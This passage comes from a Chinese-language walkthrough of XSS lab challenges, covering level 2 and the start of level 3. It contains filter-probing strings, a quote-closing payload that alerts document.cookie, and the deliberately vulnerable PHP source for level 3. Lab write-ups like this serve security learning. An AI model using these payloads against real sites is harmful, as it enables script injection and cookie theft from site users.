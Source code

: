 第一处参数输出被**htmlspecialchars函数**处理
第二处没有做过滤。

### 测试有做了什么过滤

`<sCr<scrscRiptipt>ipt>OonN\&apos;\"<>`

查看网页源码

```html
<h2 align=center>没有找到和&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;&lt;&gt; 相关的结果.</h2><center>
<input name=keyword  value="<sCr<scrscRiptipt>ipt>OonN\&apos;\"<> ">
```

### 使用**">**闭合

`?keyword="> <script>alert(document.cookie)</script> <"`

## level3

http://192.168.31.193:8080/level3.php?writing=wait

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```

### 测试有做了什么过滤

`<sCr<scrscRiptipt>ipt>OonN\&apos;\"<>`

```html
<h2 align=center>没有找到和&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;&lt;&gt;相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;&lt;&gt;'>
```

两个输出参数的地方都有被过滤,单引号没有过滤。

| <    | `&lt;`    |
| ---- | --------- |
| >    | `&gt;`    |
| "    | `\&quot;` |
